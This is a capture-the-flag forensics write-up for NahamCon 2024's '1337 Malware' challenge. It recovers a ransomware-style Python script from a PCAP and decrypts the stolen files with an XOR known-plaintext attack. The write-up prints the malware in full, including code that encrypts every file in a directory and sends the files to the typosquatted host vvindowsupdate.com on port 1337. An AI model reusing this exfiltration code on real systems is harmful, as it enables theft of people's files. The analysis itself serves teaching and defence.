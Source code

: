  # 1337 Malware - NahamCon CTF 2024

 ## Challenge Description

 ```We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.```

## Enumeration

We are given a PCAP file that will contain all the information needed to solve the challenge. Let's open it up in Wireshark.

![](./Attachments/wireshark.png)

Quickly looking through the capture, we have a majority of general TCP traffic as well as two HTTP packets. Let's looks closer at the HTTP request and see if there's anything interesting.

![](./Attachments/ransrequest.png)

We see a GET request to `vvindowsupdate.com/rans.py` - looks like the attacker has typosquatted the windowsupdate domain hoping to trick an unsuspecting user into navigating to their domain instead. `rans.py` is interesting so let's see if the response contains the script.

![](./Attachments/ransresponse.png)

Yes! We have the script used to exploit this user in plain text. Let's take a closer look at the payload.

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)
```

The script starts off by importing the modules it needs to function, followed by a key declaration and a comment. It looks like the attacker didn't take his own advice and generated the key using a random 32 byte value. This is probably why the attacker believe his malware to be "broken".

We'll remember this for later and move on to the rest of the script.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths
```

Here we have the three functions defined by the attacker to get the files in the current directory, encrypt them, and then send the encrypted version of the files back to his domain over port 1337.

Finally, the script executes these functions.

```python
files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

It appears as though the intention of the attacker was to encrypt and exfiltrate the users files, and then remove the files from the victim's computer, however `os.remove` is commented out.

`get_all_files()` isn't all that interesting, so let's skip that and look closer at `send_encrypted()`.

```python
def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()
```

The attacker was nice enough to name the files as they were exfiltrated by sending the file name to his server, which can be picked up through the network traffic.

To confirm, let's take another look at the PCAP.

![](./Attachments/filename.png)

Yep, they leaked the file names over the network. We can use this to our advantage later.

The encrypt function is going to be the most interesting for us, so let's take a closer look there.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted
```

We can see that the only form of "encryption" in use is an XOR function, which takes the plaintext of the files and XORs each byte with the key. It will be very important to find the key as this will be the only way we are able to recover the encrypted files.

This is where the fact that file names are leaked comes in handy. If we look further at the files that were exfiltrated, we have this list:

- resources.zip
- ecorp.png
- Welcome Aboard.pdf
- id_rsa
- id_rsa.pub

Before we continue, let's talk quickly about XOR and it's viability in ciphertext generation. XOR by itself is not considered cryptographically secure. The exclusive or function is associative and commutative, which means that the order of input values and how they are grouped does not affect the final output. Also, XOR has a unique property that makes it possible to inverse input and output, called self-inversion. This is especially useful in cryptanalysis because it means that if you have the ciphertext and some corresponding plaintext, you can derive the key that was used to turn plaintext into ciphertext.

This is known as a known-plaintext attack (KPA). More information can be found [here](https://blog.nviso.eu/2023/10/12/xor-known-plaintext-attacks/).

Knowing this about the malware at hand, we know that if we had the plaintext of any of the encrypted files, we could easily derive the key using the XOR function itself.

It might seem like we don't have the plaintext, but we can make a few assumptions about the files that were exfiltrated.

The file formats for .zip, .png, and .pdf all use some form of "magic bytes", or the first few bytes of the file that indicate in what format the data is stored.

- .zip - `0x50 0x4B 0x03 0x04`
- .png - `0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A`
- .pdf - `0x25 0x50 0x44 0x46`

Theoretically we could use these byte strings to derive the key, but remember that we know the key is 32 bytes in length, so these values would only be able to recover the partial key.

That leaves us `id_rsa` and `id_rsa.pub`. Luckily, we know that id_rsa has a standard format. We can generate an openssh private key using `ssh-keygen` to confirm, but we know that every openssh private key starts with this string: `-----BEGIN OPENSSH PRIVATE KEY-----`.

Yes! This string is 36 characters in length which means it is greater than 32 bytes. We should be able to recover the key with this value.

First, we'll write a script that recovers the key using the ciphertext of the id_rsa file recovered from the PCAP and the known plaintext.

```python
from pwn import xor
import os

def recover_key():
    ciphertext = bytes.fromhex("afef7e7da6970900eeab4da38833...b5f55b98fb892d")

    known_plaintext = "-----BEGIN OPENSSH PRIVATE KEY-----".encode()

    blob = xor(ciphertext, known_plaintext)
    key = blob[:32]
    return key
```

This function XORs the ciphertext and known-plaintext and returns a blob of data, from which we can grab the first 32 bytes since we know that this is the beginning of the private key. This is the key that was used to encrypt the victim's files!

From there, we can write a script that iterates through the encrypted files downloaded from wireshark and decrypts them all.

```python
def decrypt(ciphertext, key):
    plaintext = xor(ciphertext, key)
    return plaintext

directory = "/home/astra/nahamconctf/forensics/1337malware"
for file in os.listdir(directory):
    if file.endswith('.enc'):
        with open(os.path.join(directory, file)) as f:
            ciphertext = bytes.fromhex(f.read())
            plaintext = decrypt(ciphertext, key)
            b = open(os.path.join(directory, file).strip(".enc"), "wb")
            b.write(plaintext)
```

Now that we have all the files decrypted, we can sift through them for any important information (like the flag!).

Resources.zip is interesting, let's try and unzip it:

![](./Attachments/resourcezip.png)

It's password protected. Let's see if we can find the password somewhere. Let's look at `Welcome Aboard.pdf` next.

![](./Attachments/welcomeaboard.png)

And we've got the password for the zip! All that's left to do is unzip `resources.zip` and get the flag!